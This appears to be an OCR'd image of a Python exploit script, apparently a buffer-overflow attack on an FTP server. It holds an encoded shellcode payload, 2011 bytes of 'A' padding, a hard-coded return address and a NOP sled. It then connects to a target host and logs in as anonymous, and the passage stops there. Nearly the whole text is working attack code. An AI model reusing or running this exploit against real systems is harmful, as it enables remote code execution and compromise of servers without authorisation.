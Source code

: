 ```python
buf += b"\x50\x74\x69\x6b\x74\x30\x54\x30\x50\x65\x38\x31\x39"
buf += b"\x6d\x50\x72\x4b\x45\x50\x4b\x4f\x79\x45\x52\x70\x72"
buf += b"\x70\x66\x30\x52\x70\x53\x70\x30\x50\x73\x70\x56\x30"
buf += b"\x61\x78\x5a\x4a\x44\x4f\x59\x4f\x4d\x30\x79\x6f\x68"
buf += b"\x55\x6f\x67\x53\x5a\x43\x35\x53\x58\x73\x33\x6e\x63"
buf += b"\x38\x4f\x6d\x7a\x31\x78\x37\x72\x67\x70\x46\x4e\x4e"
buf += b"\x52\x6d\x59\x4d\x36\x53\x5a\x56\x70\x76\x36\x31\x47"
buf += b"\x62\x48\x7a\x39\x6d\x75\x52\x54\x55\x31\x59\x6f\x49"
buf += b"\x45\x6c\x45\x69\x50\x72\x54\x64\x4c\x4b\x4f\x62\x6e"
buf += b"\x34\x48\x73\x45\x6a\x4c\x35\x38\x58\x70\x58\x35\x59"
buf += b"\x32\x73\x66\x69\x6f\x4b\x65\x33\x58\x42\x43\x30\x6d"
buf += b"\x62\x44\x37\x70\x6e\x69\x5a\x43\x56\x37\x46\x37\x43"
buf += b"\x67\x30\x31\x38\x76\x32\x4a\x64\x52\x42\x79\x61\x46"
buf += b"\x38\x62\x39\x6d\x71\x76\x4b\x77\x63\x74\x46\x44\x67"
buf += b"\x4c\x73\x31\x37\x71\x4e\x6d\x63\x74\x75\x74\x52\x30"
buf += b"\x48\x46\x37\x70\x43\x74\x33\x64\x50\x50\x66\x36\x71"
buf += b"\x46\x50\x56\x62\x66\x72\x76\x50\x4e\x46\x36\x63\x66"
buf += b"\x70\x53\x31\x46\x42\x48\x32\x59\x78\x4c\x35\x6f\x6e"
buf += b"\x66\x59\x6f\x49\x45\x6e\x69\x6b\x50\x50\x4e\x63\x66"
buf += b"\x42\x66\x4b\x4f\x76\x50\x62\x48\x55\x58\x4e\x67\x57"
buf += b"\x6d\x73\x50\x79\x6f\x6b\x65\x4f\x4b\x48\x70\x4d\x65"
buf += b"\x69\x32\x66\x36\x62\x48\x4e\x46\x6d\x45\x4f\x4d\x4f"
buf += b"\x6d\x49\x6f\x69\x45\x37\x4c\x37\x76\x61\x6c\x65\x5a"
buf += b"\x4b\x30\x79\x6b\x39\x70\x70\x75\x47\x75\x6d\x6b\x31"
buf += b"\x57\x32\x33\x44\x32\x42\x4f\x71\x7a\x43\x30\x51\x43"
buf += b"\x79\x6f\x68\x55\x41\x41"

current_shellcode = buf

shellcode = '\x41' * 2011
shellcode += "\x9F\x53\x10\x10" # ret
shellcode += '\x90' * 20
shellcode += current_shellcode


print("\nshellcode content (size " + str(len(shellcode))  + " bytes):\n")
print(":".join("{:02x}".format(ord(c)) for c in shellcode))
print("\n")

target = inet_aton(target_ip)
target = inet_ntoa(target)

try:
    socket = socket(AF_INET, SOCK_STREAM)
except:
    print "\nError creating the network socket\n\n%s\n" % exc_info()       
    exit(1)    

try:
    print "Connecting to %s %d" % (target, port)
    socket.connect((target, port))
except:
    print "\nError connecting to %s\n\n%s\n" % (target, exc_info())
    exit(1)
    
print("Connected!")
sleep(1)
print(socket.recv(1000))
sleep(1)
print("Logging as anonymous")
socket.send('USER anonymous\r\n')
sleep(1)
print(socket.recv(1024))
```